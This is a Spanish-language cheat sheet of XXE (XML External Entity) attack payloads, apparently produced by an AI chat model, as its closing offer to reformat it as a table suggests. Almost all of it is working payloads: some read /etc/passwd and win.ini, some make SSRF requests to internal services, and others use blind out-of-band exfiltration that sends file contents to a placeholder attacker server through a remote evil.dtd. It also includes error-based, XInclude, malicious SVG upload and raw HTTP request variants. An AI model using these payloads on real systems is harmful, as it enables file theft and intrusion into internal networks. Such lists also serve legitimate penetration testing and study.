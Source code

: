 
# Diccionario de Payloads XXE

---

## 1. Lectura de Archivos Locales

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
````

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///c:/windows/win.ini"> ]>
<data>&xxe;</data>
```

---

## 2. SSRF (Server-Side Request Forgery)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://127.0.0.1:8080/admin"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal-service.local/secret"> ]>
<data>&xxe;</data>
```

---

## 3. Blind XXE (Exfiltración Out-of-Band)

```xml
<!DOCTYPE foo [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://OUR-SERVER.com/?data=%file;'>">
  %eval;
  %exfil;
]>
```

```xml
<!DOCTYPE foo [
  <!ENTITY % remote SYSTEM "http://OUR-SERVER.com/evil.dtd">
  %remote;
]>
```

*(el archivo `evil.dtd` alojado en nuestro servidor puede contener la lógica de exfiltración)*

---

## 4. Error-Based XXE

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
  <!ENTITY fail SYSTEM "file:///does/not/exist/%xxe;">
]>
<foo>&fail;</foo>
```

---

## 5. XInclude (cuando DOCTYPE está bloqueado)

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

---

## 6. XXE en Archivos Subidos (ejemplo SVG)

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<svg height="100" width="100">
  <text x="10" y="20">&xxe;</text>
</svg>
```

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
  <!ENTITY xxe SYSTEM "http://OUR-SERVER.com/xxe">
]>
<svg height="100" width="100">
  <text x="10" y="20">&xxe;</text>
</svg>
```

---

## 7. Forzando Content-Type

```
POST /api HTTP/1.1
Host: vulnerable.com
Content-Type: text/xml

<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data>&xxe;</data>
```

```
POST /api HTTP/1.1
Host: vulnerable.com
Content-Type: application/xml

<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://127.0.0.1:8080/"> ]>
<data>&xxe;</data>
```

---


¿Quieres que te lo prepare también en **formato tabla de referencia rápida** (Payload → Objetivo → Ejemplo) para que lo tengas todo en una sola vista compacta?
```
